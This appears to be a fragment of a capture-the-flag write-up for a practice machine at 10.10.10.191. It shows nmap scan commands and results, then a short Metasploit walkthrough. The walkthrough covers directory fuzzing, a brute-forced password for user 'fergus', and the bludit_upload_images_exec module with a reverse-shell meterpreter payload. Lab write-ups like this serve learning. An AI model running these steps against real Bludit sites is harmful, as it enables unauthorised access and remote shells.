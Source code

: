 #### Scan 4 (TCP connect)

```s
nmap -sT 10.10.10.191
```

Response:

```s
Not shown: 998 filtered ports
PORT   STATE  SERVICE
21/tcp closed ftp
80/tcp open   http
```

#### Scan 5 (UDP)

```s
nmap -sU 10.10.10.191
```

Response:

```s
Not shown: 998 open|filtered ports
PORT   STATE  SERVICE
21/udp closed ftp
80/udp closed http
```

#### Scan 5 (Service detection)

```s
nmap -sV 10.10.10.191
```

Response

```s
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
```

# Metasploit version

1. dirsearch (found `admin`)

2. wfuzz (found `todo.txt` with user `fergus`)

3. cewl to create a custom wordlist for `fergus`.

4. brute force password: `RolandDeschain`

5. `use exploit/linux/http/bludit_upload_images_exec`

6. `set payload php/meterpreter/reverse_tcp`
